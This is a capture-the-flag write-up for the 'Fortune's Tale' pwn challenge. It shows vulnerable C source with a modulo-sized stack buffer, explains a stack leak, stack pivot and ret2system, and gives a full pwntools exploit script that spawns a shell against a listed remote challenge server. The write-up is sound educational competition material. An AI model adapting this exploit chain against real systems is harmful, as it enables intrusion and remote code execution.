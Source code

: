 ```yaml
---
title: "CTF ARKAVIDIA 9.0 Qual - Fortune's Tale [WRITE UP]"
tags:
    - Pwn
    - BOF
    - Stack Pivot
    - Ret2system
category: "CTF National"
---
```


This is a National CTF Challenge, i only solve one but might as well make a write up for fun :)

# Pwn - Fortune's Tale

## Introduction 

![alt](/img/CTFNational/ARKAVIDIA_9.0/FortuneTale.png)

## Source Code

```c
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


#define MAX_SIZE 300


void init()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}


int main()
{
    init();
    bool end = false;
    while (!end)
    {
        int choice;
        printf("1. Take a fortune\n"
               "2. Share a story\n"
               "3. Exit\n"
               "> ");
        scanf("%d%*c", &choice);
        switch (choice)
        {
        case 1:
            system("fortune");
            break;
        case 2: {
            int size;
            printf("Size: ");
            scanf("%d%*c", &size);
            char buf[size % MAX_SIZE]; #VULN
            printf("Text: ");
            read(0, buf, size);
            write(1, buf, size);
        }
        break;
        case 3: {
            end = true;
        }
        break;
        default:
            printf("Invalid choice\n");
        }
    }
}
```

## Summary

Make `buf` size the same or bigger then `MAX_SIZE` to leak stack and make it buffer overflow. Than use stack leak with fill buffer null byte to fix pivoting stack return. 

## Solution

Given a statically linked binary chall using musl libc and all live protection with Partial Relro.

![alt](/img/CTFNational/ARKAVIDIA_9.0/Protection.png)

It can be seen that there are 3 options containing:
- The first option is to run the `system("fortune")` //Not Important
- The second option is to declare a variable with size % `MAX_SIZE`, then read as much size and write to stdout as much size as (just like regular print)
- The third option exits the menu to be used for RIP control

So in option 2 if you provide an input of `MAX_SIZE` which becomes 0, when reading as many as 300 becomes a buffer overflow. For the leak address, you can declare a variable size `MAX_SIZE` so that it becomes a `char buf[0]` and after that is the content of the stack address that can be used as a leak. Next, set the breakpoint after the exit option and analyze what was done.

![alt](/img/CTFNational/ARKAVIDIA_9.0/AfterExit.png)

It can be seen that when choosing the exit option, the instructions to be carried out
Set `eax = 0`
`esp - &[ebp-0xc]`
`pop ecx` (Important where to control the return later)
`pop ebx`
`pop esi`
`pop ebp`
`esp - &[ecx - 4]`
To operate an `eip`, a true `esp` is required. `esp` will change depending on the content of the first `ebp` and `ecx`. To make it easier, i padded until `pop ecx` and set:
`ebp - 0xc = 0`
`ecx - 4 = stack leak`
The padding offset `\x00` is at 44 for `pop ecx` and the rest I spam ret2system to get the shell because in the binary there is a `system` function and the `/bin/sh` string.

### Solve Script

```python
#!/usr/bin/env python3
from pwn import *
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "20.195.43.216", 8001


pid = None


def gdbscript():
    global pid
    gdbscript = f'''
    init-pwndbg
    set sysroot /proc/{pid}/root
    break *main+377
    break *main+362
    c
    '''.format(**locals())
    return gdbscript


def initialize(argv=[]):
    global pid
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript())
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.DOCKER:
        p = remote("localhost", 1337)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./chall"]).recvall().strip().decode()
        attach(int(pid), gdbscript=gdbscript(), sysroot=f"/proc/{pid}/root", exe='chall')
        return p
    else:
        return process([exe] + argv)


def exploit():
    global io
    io = initialize()
    with log.progress("Leak address"), context.silent:
        io.sendlineafter("> ", b"2")
        io.sendlineafter("Size: ", b"300")
        io.sendlineafter("Text: ", "")
        io.recv(1)
        leak = io.recvuntil("1. Take a fortune")
    for i in range(40):
        log.info("Leak %#d: %#x", i+1, u32(leak[i*4:(i+1)*4]))
    stack = u32(leak[34*4:35*4]) << 8
    elf.address = (u32(leak[17*4:18*4]) << 8) - 0x10f00
    log.info("Stack: %#x", stack)
    log.info("ELF: %#x", elf.address)
    with log.progress("BOF to win"), context.silent:
        io.sendlineafter("> ", b"2")
        io.sendlineafter("Size: ", b"300")
        rop = ROP(elf)
        rop.system(next(elf.search(b"/bin/sh\x00")))
        print(rop.dump())
        payload = rop.chain()
        io.sendlineafter("Text: ", b"\x00"*44 + p32(stack) + p32(0) + p32(0) + p32(0) + payload*10)
    io.sendlineafter("> ", b"3")
    io.sendline(b"cat flag.txt")
    io.interactive()


if __name__ == '__main__':
    exploit()
```

### Flag

`ARKAV{__pwn__no__akachan__}`